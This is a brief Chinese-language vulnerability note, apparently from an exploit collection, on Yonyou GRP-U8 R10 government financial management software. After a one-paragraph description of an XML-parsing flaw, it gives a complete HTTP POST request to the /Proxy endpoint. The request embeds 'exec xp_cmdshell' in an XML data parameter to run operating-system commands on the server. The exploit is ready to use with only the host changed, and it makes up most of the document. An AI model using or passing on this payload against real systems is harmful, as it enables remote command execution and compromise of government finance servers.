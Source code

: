 ## 0x00 漏洞介绍

   用友GRP-U8R10行政事业财务管理软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行。
   
## 0x01 漏洞验证
 
 
```
   
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET> 

```
